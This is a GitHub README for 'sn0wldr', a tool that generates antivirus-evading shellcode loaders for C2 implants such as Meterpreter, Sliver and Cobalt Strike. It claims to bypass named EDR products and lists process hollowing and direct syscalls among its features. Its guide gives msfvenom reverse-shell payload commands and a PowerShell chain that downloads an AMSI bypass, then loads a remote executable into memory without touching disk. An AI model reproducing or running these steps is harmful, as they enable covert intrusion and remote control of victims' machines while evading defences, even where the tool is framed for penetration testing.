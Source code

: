 # sn0wldr

## This is used to generate a AV bypassed sc loader.

up to test day, most common AVs can be bypassed: Windows defender, ATP, CS Falcon, Carbon Black, Red Canary, Cylance and McAfee.

### Install MONO when using Linux
```
sudo apt install apt-transport-https dirmngr gnupg ca-certificates
sudo apt-key adv --keyserver hkp://keyserver.ubuntu.com:80 --recv-keys 3FA7E0328081BFF6A14DA29AA6A19B38D3D831EF
echo "deb https://download.mono-project.com/repo/debian stable-buster main" | sudo tee /etc/apt/sources.list.d/mono-official-stable.list
sudo apt update
sudo apt-get install mono-complete
```

### Currently supporting the following C2 plateform (It is now should be able to support any C2 if shellcode is provided):

* Meterpreter
* Covenent
* Sliver
* Cobalt Strike


### Feature

* Process Hollowing
* Behaviour detection bypass
* Random AES encryption
* Rewrite to use D/Invoke direct syscalls
* Add a new haloloader_template to use [SharpHalos](https://github.com/GetRektBoy724/SharpHalos), HaloGates direct syscalls methods to load shellcode

### Guide

1. Generate shellcode for supported C2 implant in raw format:
For Sliver:
```
### To Generate a Sliver implant shellcode without obfuscation:
# [server] sliver > generate -N sliver --mtls 10.0.0.145 -b 10.0.0.145 --skip-symbols -f shellcode --save /root/Codes/sn0wldr/input/
# [*] Generating new windows/amd64 implant binary
# [!] Symbol obfuscation is disabled
# [*] Build completed in 00:01:25
# [*] Implant saved to /root/Codes/sn0wldr/input/sliver.bin
#
### Move the sliver.bin to folder input if required, then run the autogen script.
```

For Meterpreter:
```
### To Generate a Meterpreter implant shellcode without obfuscation:
# for x64
# msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.0.0.145 LPORT=8443 -f raw -o input/meterpreter.bin
# for x86
# msfvenom -p windows/meterpreter/reverse_https LHOST=10.0.0.145 LPORT=8443 -f raw -o input/meterpreter.bin
### Move the meterpreter.bin to folder input if required, then run the autogen script.
```

For CobaltStrike:
```
### To Generate a CS implant shellcode without obfuscation:
# Attacks -> Packages -> Payload Generator
# Choose Raw in Output area.
### Move the cobaltstrike.bin to folder input and rename to cobaltstrike.bin, then run the autogen script.
```

2. Move the generated shellcode bin file to `input` folder, and rename it as format: `<c2type>.bin`

3. Run the autogen script `autogen_loader.sh`, wait for couple of minutes and check the generated encrypted EXE in the output folder.

```
┌──(root💀TW-PenTestBox)-[~/myCodes/sn0wldr]
└─# ./autogen_loader.sh -h                              
[*] Usage: ./autogen_loader.sh -t <c2type> -a <target_os_arch> -s <syscall_type> 
[*] Exg..: ./autogen_loader.sh -t sliver -a x64 -s halogate 

[!] Make sure the shellcode bin file located in input folder and named as <c2type>.bin 
[!] Currently c2type only support the following four: 
[!] 	sliver|meterpreter|cobaltstrike|covenant 
[!] Current directly syscall methods only support the following two: 
[!] 	dinvoke|halogate
```

4. Since the generated executable file is Sharp Assembly, it can be chained with the tool [PowerSharpLoader](https://github.com/F4l13n5n0w/PowerSharpLoader) to load remotely into memory without touch disk, as shown in the following example:
```
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/amsi3.txt"));
IEX([Net.Webclient]::new().DownloadString("https://raw.githubusercontent.com/F4l13n5n0w/PowerSharpLoader/master/Invoke-LoadAssembly.ps1"));
Invoke-LoadAssembly -AssemblyUrl https://not.o0.rs/halosli64x2.exe -Command ""
```

### To Do

* Add bananameowloader for even better AV bypass
* Add InlineExecute-Assembly BoF support for Sliver

